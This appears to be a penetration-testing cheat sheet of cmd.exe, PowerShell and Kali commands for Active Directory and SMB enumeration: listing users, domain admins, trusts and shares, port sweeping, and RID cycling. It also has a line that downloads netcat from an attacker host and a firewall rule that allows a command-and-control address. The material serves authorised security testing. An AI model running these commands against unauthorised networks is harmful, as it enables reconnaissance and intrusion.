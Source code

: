 # Domain Enumeration

## Command Tools (cmd.exe)

A simple batch script with these commands is here: [\tools\WinDomainEnum.bat](https://github.com/EvolvingSysadmin/Penetration-Testing/blob/master/tools/WinDomainEnum.bat)

Display Networking Info
```CMD
ipconfig /all
```
Display Domain
```CMD
echo %USERDOMAIN%
    net config workstation/server
```
Display Domain Logon Server
```CMD
echo %logonserver%
```
Display Domain Password Policy
```CMD
net accounts /domain
```
Display DC Address, Domain Name, Roles
```CMD
wmic ntdomain
```
Dsquery User List
```CMD
dsquery user domainroot
``` 
User Logon Name from Email
```CMD
dsquery * domainroot -filter "(&(objectCategory=Person)(objectClass=User)(mail=e-mailaddress))" -attr name
```
Display Trusted Domain
```CMD
dsquery * -filter "(objectclass=TrustedDomain)" -attr trustpartner,flatname,trustdirection
```
Domain Admins of from Remote Trused Domain
```CMD
dsquery * -filter "(cn=Domain Admins)" -attr member -d trustedDomain
```
Display All Domain Users
```CMD
wmic /NAMESPACE:\\root\directory\ldap PATH ds_user GET ds_samaccountname
```
Display All Domain Groups
```CMD
wmic /NAMESPACE:\\root\directory\ldap PATH ds_group GET ds_samaccountname
```
Display All Domain Computers
```CMD
wmic /NAMESPACE:\\root\directory\ldap PATH ds_computer GET ds_samaccountname
```
View Domain User Info
```CMD
net user /domain
 net user pentestuser /domain
```
Display Domain Admin Users
```CMD
net group “Domain Admins” /domain
```
View All Hosts in Domain/Workgroup
```CMD
net view
```
Display Network Shares
```CMD
net share
```
Display Domain Trust Info
```CMD
nltest
 nltest /finduser:sweppler
 nltest /dclist:mydomain
 nltest /trusted_domains
```

## PowerShell Tools

Ping Sweeper
```PowerShell
 1..255 | % {echo "192.168.1.$_"; ping -n 1 -w 100 192.168.1.$_ | Select-String ttl}
```
Port Sweeper
```PowerShell
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("<IPADDR>", $_)) "Port $_ is open!"} 2>$null
```
Sweep Range of IPs for Single Port
```PowerShell
foreach ($ip in 1..20) {Test-NetConnection -Port 80 -InformationLevel "Detailed" 192.168.1.$ip}
```
Sweep IPs and Ports
```PowerShell
1..20 | % { $a = $_; 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.$a",$_)) "Port $_ is open!"} 2>$null}
```
Test Egress Filtering
```PowerShell
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("allports.exposed",$_)) "Port $_ is open" } 2>$null
```
Display Domain Admins
```PowerShell
([adsisearcher]"(&(objectClass=User)(admincount=1))").FindAll().Properties.samaccountname
```
Display Accounts that Don't Lock Out
```PowerShell
dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=65536))"
```
Web Client to Download Files (eg NetCat)
```PowerShell
wget "http://10.10.10.10/nc.exe" -outfile "c:\nc.exe"
```
Get Firewall Rules
```PowerShell
Get-NetFirewallRule -all | Out-GridView
 Get-NetFirewallRule -all | Export-csv <file_path.csv>
```
Add Firewall Rule
```PowerShell
New-NetFirewallRule -Action Allow -DisplayName Pentester-C2 -RemoteAddress <IPADDR>
```

 ## Linux/Kali Tools

 SMB Enumeration Tools
 ```bash
nmblookup -A target
smbclient //MOUNT/share -I target -N
rpcclient -U "" target
enum4linux target
```

Discover Windows / Samba servers on subnet, finds Windows MAC addresses, netbios name and discover client workgroup / domain
```bash
nbtscan 192.168.1.0/24
```

Do Everything, runs all options (find windows client domain / workgroup) apart from dictionary based share name guessing
```bash
enum4linux -a target-ip
```

Fingerprint SMB Version
```bash
smbclient -L //192.168.1.100 
```

Find open SMB Shares in Nmap
```bash
nmap -T4 -v -oA shares --script smb-enum-shares --script-args smbuser=username,smbpass=password -p445 192.168.1.0/24   
```

Enumerate SMB Users in Nmap
```bash
nmap -sU -sS --script=smb-enum-users -p U:137,T:139 192.168.11.200-254 
```


Enumerate SMB Using Samrdump Python Impacket

```bash
python /usr/share/doc/python-impacket-doc/examples
/samrdump.py 192.168.XXX.XXX
```


ridenum.py 192.168.XXX.XXX 500 50000 dict.txt
https://github.com/trustedsec/ridenum


Metasploit RID Cycling

```bash
use auxiliary/scanner/smb/smb_lookupsid
```

https://github.com/SecureAuthCorp/impacket

https://www.hackingarticles.in/impacket-guide-smb-msrpc/

 https://www.sans.org/blog/pen-test-poster-white-board-powershell-built-in-port-scanner/

## Domain Enumeration Resources

* Information dumper via LDAP: https://github.com/dirkjanm/ldapdomaindump
* Integrated DNS dumping by any authenticated user: https://github.com/dirkjanm/adidnsdump
* Advanced Discovery of Privileged Accounts: https://github.com/cyberark/ACLight
* Detailed Active Directory Recon Tool: https://github.com/sense-of-security/ADRecon
* Powershell AD Enumeration: https://www.exploit-db.com/docs/english/46990-active-directory-enumeration-with-powershell.pdf
* Data collector tool: https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html